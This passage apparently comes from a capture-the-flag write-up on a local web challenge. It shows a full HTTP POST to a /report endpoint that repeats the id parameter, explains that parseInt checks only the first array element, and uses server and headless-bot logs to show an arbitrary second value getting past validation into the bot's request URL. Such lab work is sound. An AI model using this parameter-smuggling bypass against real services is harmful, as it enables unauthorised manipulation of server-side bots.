 The server prints:

```
web_1                | 2
```

Makes sense, right? Now, let's include another `id` just like this:

```http
POST /report HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 17
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:3000/report
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

id=2&id=4&message=fgdf
```

Here's how the server processes it:

```
web_1                | [ '2', '4' ]
```

This assistance is beneficial because I can exploit the `parseInt` function that analyzes the integer and validates the `id`. By taking advantage of this feature, we can manipulate the input to our benefit. Interestingly, the `parseInt` function only focuses on the first element of the array and ignores the others. Consequently, if we supply a valid `id` in the initial parameter, we can input any value we wish. It is time to experiment with this hypothesis.

```
web_1                | [ '2', 'Test' ]
```

The server showcases the new `id` next to a `Test` string. Furthermore, a notification "Report submitted successfully" appears on the frontend, verifying the successful completion of the operation. What response does the `headless` server provide to this data? We can examine the docker logs to find out. Among the many entries, a particular line highlights the request being executed.

```
headless-worker_1    | [2024-03-27 14:23:59,090][JOB 20261d76-a20e-475d-9cc8-11ab396f34ad][DEBUG]   - 200 http://web:3000/product/2,Test
```
